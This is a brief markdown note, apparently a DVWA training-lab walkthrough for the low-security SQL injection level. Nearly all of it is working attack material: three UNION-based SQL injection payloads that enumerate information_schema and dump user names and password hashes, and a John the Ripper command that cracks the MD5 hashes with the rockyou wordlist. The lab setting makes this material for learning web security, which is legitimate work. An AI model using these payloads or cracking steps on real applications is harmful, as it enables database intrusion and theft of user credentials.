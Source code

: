 # LOW
```sql
%' or '0'='0' union select TABLE_NAME, COLUMN_NAME from information_schema.COLUMNS #
%' or '0'='0' union select TABLE_NAME, COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME = 'users' #
%' or '0'='0' union select user, password from dvwa.users #
```

https://www.tunnelsup.com/hash-analyzer/

`john --wordlist=rockyou.txt --format=Raw-MD5 hashes.txt`

